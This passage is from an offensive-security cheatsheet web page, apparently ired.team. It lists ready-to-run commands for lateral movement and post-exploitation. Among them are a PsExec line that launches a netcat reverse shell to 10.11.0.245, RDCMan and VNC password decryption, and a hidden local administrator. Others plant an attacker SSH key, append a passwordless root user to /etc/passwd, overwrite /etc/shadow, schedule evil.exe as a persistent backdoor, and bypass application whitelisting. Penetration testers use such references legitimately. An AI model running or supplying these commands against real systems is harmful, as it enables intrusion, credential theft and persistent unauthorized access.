409cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"

###

CMD

Copy

410# Requires interactive console
411runas /user:userName cmd.exe

###

PsExec

Copy

psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245  80  -e cmd.exe

###

Pth-WinExe

Copy

pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe

##

Recursively Find Hidden Files: Windows

Copy

dir /A:H /s "c:\program files"

##

General File Search

Copy

415# Query the local db for a quick file find. Run updatedb before executing locate.

416locate  passwd
417​

418# Show which file would be executed in the current environment, depending on $PATH environment variable;

419which nc wget  curl php perl python netcat tftp telnet ftp
420​
421# Search for *.conf (case-insensitive) files recursively starting with /etc;
422find /etc -iname *.conf

#

Post-Exploitation & Maintaining Access

##

Browsing Registry Hives

Copy

hivesh /registry/file

##

Decrypting RDG Passwords

Remote Desktop Connection Manager passwords can be decrypted on the same computer/account they were encrypted:

Copy

424Copy-Item 'C:\Program Files (x86)\Microsoft\Remote Desktop Connection Manager\RDCMan.exe C:\temp\RDCMan.dll’

425Import-Module C:\temp\RDCMan.dll
426$EncryptionSettings = New-Object -TypeName RdcMan.EncryptionSettings
427[RdcMan.Encryption]::DecryptString($PwdString, $EncryptionSettings)

##

Decrypting VNC Password

Copy

wine vncpwdump.exe -k key

##

Creating User and Adding to Local Administrators

Copy

net user spotless spotless /add & net localgroup Administrators spotless /add

##

Hide Newly Created Local administrator

Copy

reg  add  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"  /t  REG_DWORD  /v  spotless  /d  0  /f

##

Creating SSH Authorized Keys

Copy

mkdir /root/.ssh 2>/dev/null;  echo  'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChKCUsFVWj1Nz8SiM01Zw/BOWcMNs2Zwz3MdT7leLU9/Un4mZ7vjco0ctsyh2swjphWr5WZG28BN90+tkyj3su23UzrlgEu3SaOjVgxhkx/Pnbvuua9Qs9gWbWyRxexaC1eDb0pKXHH2Msx+GlyjfDOngq8tR6tkU8u1S4lXKLejaptiz0q6P0CcR6hD42IYkqyuWTNrFdSGLtiPCBDZMZ/5g1cJsyR59n54IpV0b2muE3F7+NPQmLx57IxoPjYPNUbC6RPh/Saf7o/552iOcmVCdLQDR/9I+jdZIgrOpstqSiJooU9+JImlUtAkFxZ9SHvtRbFt47iH7Sh7LiefP5 root@kali'  >> /root/.ssh/authorized_keys

##

Creating Backdoor User w/o Password

Copy

432echo  'spotless::0:0:root:/root:/bin/bash'  >> /etc/passwd
433​

434# Rarely needed, but if you need to add a password to the previously created user by using useradd and passwd is not working. Pwd is "kali"

435sed  's/!/\$6$o1\.HFMVM$a3hY6OPT\/DiQYy4koI6Z3\/sLiltsOcFoS5yCKhBBqQLH5K1QlHKL8\/6wJI6uF\/Q7mniOdq92v6yjzlVlXlxkT\./' /etc/shadow > /etc/s2;  cat /etc/s2 > /etc/shadow;  rm /etc/s2

##

Creating Another root User

Copy

useradd -u0 -g0 -o -s /bin/bash -p `openssl passwd yourpass` rootuser

##

Generating OpenSSL Password

Copy

437openssl passwd -1 password
438# output $1$YKbEkrkZ$7Iy/M3exliD/yJfJVeTn5.

##

Persistent Back Doors

Copy

439# Launch evil.exe every 10 minutes

440schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe

#

Code Execution / Application Whitelist Bypass

##

Ieframe.dll

cmd

test.url

Copy

rundll32 c:\windows\system32\ieframe.dll,OpenURL c:\temp\test.url

This was inspired by and forked/adapted/updated from [Dostoevsky's Pentest Notes](https://github.com/dostoevskylabs/dostoevsky-pentest-notes).

[ Previous What is this?](https://www.ired.team/)[ Next  SQL Injection & XSS Playground   ](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets/sql-injection-xss-playground)

Mantvydas Baranauskas
Last updated 2 months ago
Was this page helpful?

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='8133'%3e%3cg data-evernote-id='8134' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.993.993 0 0 0 .006-1.396 1.007 1.007 0 0 0-1.408-.03C8.273 7.312 7.519 8 6 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C2.425 8.839 3.653 10 6 10c2.347 0 3.575-1.161 3.707-1.293m12 0a.993.993 0 0 0 .006-1.396 1.006 1.006 0 0 0-1.408-.03C20.273 7.312 19.519 8 18 8c-1.497 0-2.251-.67-2.303-.717a1 1 0 0 0-1.404 1.424C14.425 8.839 15.653 10 18 10c2.347 0 3.575-1.161 3.707-1.293M21.001 19a1 1 0 0 1-.896-.553C20.036 18.314 18.225 15 12 15c-6.225 0-8.036 3.314-8.11 3.456a1.002 1.002 0 0 1-1.344.43.997.997 0 0 1-.441-1.333C2.198 17.367 4.469 13 12 13s9.802 4.367 9.895 4.553A1.001 1.001 0 0 1 21.001 19' fill-rule='evenodd' data-evernote-id='8135' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='currentColor' viewBox='0 0 24 24' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' stroke='none' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='8141'%3e%3cg data-evernote-id='8142' class='js-evernote-checked'%3e%3cpath d='M9.707 8.707a.999.999 0 0 0 0-1.414C9.575 7.161 8.347 6 6 6 3.653 6 2.425 7.161 2.293 7.293a.992.992 0 0 0-.005 1.396 1.007 1.007 0 0 0 1.408.029C3.727 8.689 4.481 8 6 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0m12 0a.999.999 0 0 0 0-1.414C21.575 7.161 20.347 6 18 6c-2.347 0-3.575 1.161-3.707 1.293a.992.992 0 0 0-.005 1.396 1.006 1.006 0 0 0 1.407.029C15.727 8.689 16.481 8 18 8c1.52 0 2.273.689 2.293.707a.997.997 0 0 0 1.414 0M12 19c-7.53 0-9.8-4.367-9.894-4.553a1.001 1.001 0 0 1 1.786-.902C3.974 13.704 5.792 17 12 17c6.226 0 8.037-3.314 8.111-3.456a1.007 1.007 0 0 1 1.344-.43.998.998 0 0 1 .441 1.333C21.802 14.633 19.531 19 12 19' fill-rule='evenodd' data-evernote-id='8143' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)